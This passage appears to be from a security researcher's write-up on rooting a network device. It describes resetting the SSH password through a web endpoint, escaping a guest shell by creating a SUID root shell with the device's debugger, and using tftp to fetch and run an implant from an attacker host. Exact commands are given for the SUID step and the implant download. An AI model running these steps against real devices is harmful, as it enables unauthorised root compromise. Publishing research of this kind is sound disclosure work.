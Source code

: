 This is the same endpoint used to change the password, but it for some reason also supports reading it.

## Shell Access

The end goal is to pop a root shell, so lets do that.
We'll use the SSH session to get initial shell access, as I'm not currently aware of any bugs in the webui that can be used for command injection in the versions being considered.

### Initial Access

The device offers SSH support, but to login we need to know the password.
To work around this, my approach was to:
* enable SSH
* change the users password to a known one
* login via ssh
* change the password back to the known hash.

Then we have free access to a (restricted) shell.

### Breaking out of the guest account

I'm not sure they consider this a security boundary, but you need a way of breaking out of the existing guest shell.

To do this, I used the builtin debugger that you can access via `cliclientd` to run a shell command that creates a SUID shell.
```
cliclientd tdb "-r cp /bin/sh /tmp/sh"
cliclientd tdb "-r chmod 7777 /tmp/sh"
```

Then we can run whatever we want as root.

### File Transfer

After we are on the device, we want to get our implant on it.
Sadly, I couldn't get any of the local binaries to do the usual inline file transfer tricks so we are forced to rely on tftp (for now at least).

tftp is a UDP based protocol that can be used for file transfer, just a bit of a pain to setup a tftpd server to share your implant.
I found py3tftp[3] to be reasonable.

Copy the file over with:
```
tftp -g -r out.elf -l /tmp/out.elf YOURHOST
chmod +x /tmp/out.elf
/tmp/out.elf &
```

## Bringing it all together

Here is my complete exploit can be found in [eap.py](eap.py). Not the cleanest code, but hopefully easy enough to follow.
Start at the `exploit()` function, which is where the CLI starts.

